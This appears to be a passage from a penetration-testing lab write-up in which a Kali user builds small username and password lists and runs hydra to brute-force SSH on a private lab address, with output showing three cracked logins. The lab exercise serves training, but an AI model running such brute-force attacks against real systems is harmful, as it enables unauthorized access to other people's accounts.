 ```bash
┌──(kali㉿kali)-[~/oclab]
└─$ cat > users.txt << EOF
root
admin
user1
developer
admin_backup
brandon
eli
test
debian
EOF

┌──(kali㉿kali)-[~/oclab]
└─$ cat > passwords.txt << EOF
password
password123
admin
admin123
dev123
test123
sipsip1
Welcome1
Password123!
EOF
```

**Wordlist Verification:**
```bash
┌──(kali㉿kali)-[~/oclab]
└─$ wc -l users.txt passwords.txt
  9 users.txt
  9 passwords.txt
 18 total
```

### Step 4.2: SSH Brute Force - Live Attack

```bash
┌──(kali㉿kali)-[~/oclab]
└─$ hydra -L users.txt -P passwords.txt ssh://192.168.148.100 -t 4 -V
```

**Hydra Attack Output:**
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak

[DATA] max 4 tasks per 1 server, overall 4 tasks, 81 login tries (l:9/p:9)
[DATA] attacking ssh://192.168.148.100:22/
[VERBOSE] Resolving addresses ... done
[ATTEMPT] target 192.168.148.100 - login "root" - pass "password" - 1 of 81
[ATTEMPT] target 192.168.148.100 - login "root" - pass "password123" - 2 of 81
[ATTEMPT] target 192.168.148.100 - login "admin" - pass "admin" - 15 of 81
[22][ssh] host: 192.168.148.100   login: user1   password: password123
[22][ssh] host: 192.168.148.100   login: developer   password: dev123
[22][ssh] host: 192.168.148.100   login: admin_backup   password: admin
[STATUS] attack finished for 192.168.148.100 (valid pair found)
```
